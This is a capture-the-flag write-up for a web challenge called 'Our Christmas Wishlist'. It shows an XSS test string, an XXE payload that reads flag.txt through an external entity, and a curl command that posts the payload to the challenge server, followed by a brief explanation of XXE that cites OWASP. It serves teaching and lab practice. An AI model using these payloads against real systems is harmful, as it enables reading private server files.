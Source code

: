 # Our Christmas Wishlist

Category: Web
Tag: Web, XXE



## Attack

Simple input/submit form

![1545552814368](/home/hhro/.config/Typora/typora-user-images/1545552814368.png)



In html source, there is interesting function lol().

![1545553195829](/home/hhro/.config/Typora/typora-user-images/1545553195829.png)

It's a common ajax xml function for sending request.

It sends your message in xml form.

After doing some test, we can find server-side xml parser is poor.



It allows XSS.

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```



and It also allows XXE.

```html
<!DOCTYPE foo [
 <!ENTITY flag SYSTEM "flag.txt" >]>
    <message>&flag;</message>
```



There is no way to get flag.txt with local-XSS. It needs privilege.

Fortunately, XXE works and I can leak any file from server.

```bash
curl -X POST -H "Content-Type: application/xml" -d @xxe.xml http://199.247.6.180:12001/
```

```html
<!DOCTYPE foo [
 <!ENTITY flag SYSTEM "flag.txt" >]>
    <message>&flag;</message>
```

<center>[xxe.xml]</center>



## XXE(eXternal XML Entity)

> There is great reference in OWASP(https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing). 
> It's enough to solve this challenge with above reference.

XML support keyword `ENTITY`.

According to W3, It's used to define shortcut for special characters, and it can be declared for internal or external.

Internal means target entity is in DTD(Document Type Definition), and external means target entity is not in DTD.

XXE occurs when it is about external.

External entity should be declared in this form.
`<!ENTITY [name] SYSTEM [PATH] >`

xxe.xml above could be simple example of external entity usage.

If xml-parser meets `&flag`, it exchange `&flag` with contents of `flag.txt`.











